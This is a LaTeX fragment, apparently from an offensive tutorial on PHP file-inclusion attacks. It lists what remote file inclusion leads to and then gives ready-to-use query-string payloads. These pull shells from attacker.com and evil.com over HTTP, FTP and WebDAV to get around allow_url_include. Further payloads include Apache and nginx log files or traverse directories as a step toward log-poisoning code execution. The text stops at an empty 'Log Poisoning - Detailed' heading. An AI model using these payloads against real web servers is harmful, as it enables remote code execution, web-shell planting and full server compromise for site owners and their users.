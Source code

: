 \documentclass[12pt]{article}
\begin{document}
\subsection{Why RFI Is Dangerous}

RFI can directly lead to:

\begin{itemize}
    \item Remote Code Execution
    \item Web shells
    \item Full server compromise
    \item Malware installation
\end{itemize}

\subsection{Bypassing allow\_url\_include Restrictions}

If allow\_url\_include is disabled, try:

\begin{lstlisting}
# Upload shell as image, then include
/vuln.php?file=http://attacker.com/shell.jpg

# Use FTP wrapper
/vuln.php?file=ftp://attacker.com/shell.txt

# Use WebDAV
/vuln.php?file=http://attacker.com@evil.com/shell
\end{lstlisting}

\subsection{Using Log Files for RFI Alternative}

Even with RFI disabled, you can include local logs:

\begin{lstlisting}
/vuln.php?file=/var/log/apache2/access.log
/vuln.php?file=/var/log/nginx/error.log
/vuln.php?file=../../../../logs/error.log
\end{lstlisting}

\section{LFI to RCE - Advanced Techniques}

\subsection{Log Poisoning - Detailed}
\end{document}
